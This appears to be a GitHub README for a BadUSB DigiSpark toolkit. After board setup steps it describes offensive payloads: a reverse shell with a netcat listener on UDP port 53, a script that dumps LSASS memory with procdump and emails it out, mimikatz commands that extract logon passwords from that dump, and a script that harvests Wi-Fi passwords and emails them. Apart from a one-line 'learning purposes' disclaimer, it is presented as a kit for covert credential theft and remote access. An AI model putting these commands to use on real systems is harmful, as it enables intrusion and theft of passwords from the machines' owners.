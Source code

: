 # BadUSB-DigiSpark Keyboard #

![alt text](https://ksr-ugc.imgix.net/assets/000/103/753/8e69aa968fcece8a35b644f17b92a939_original.jpg?w=680&fit=max&v=1344375979&auto=format&q=92&s=ca0a704479c3ee828a33780fb2cfd5a6)

### In order to upload the sketches to your DigiSpark you need the following: ###


- #### Download and install the Arduino IDE. ####
~~~~
https://www.arduino.cc/en/Main/Software
~~~~
- #### Configure and install the additional Digispark boards: ####
~~~~
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
~~~~
- #### Configure your Digisprark setup. ####
~~~~
In the Arduino IDE set your board to (DigiSpark Default 16,5 Mhz) and the programmer to USBtinyISP.
~~~~
- #### Download and install the Digistump Drivers. ####
~~~~
https://github.com/digistump/DigistumpArduino/releases
~~~~

***

# Reversed Shell #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host. ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.

***

# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

***

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

### Only use this for learning purposes. ###
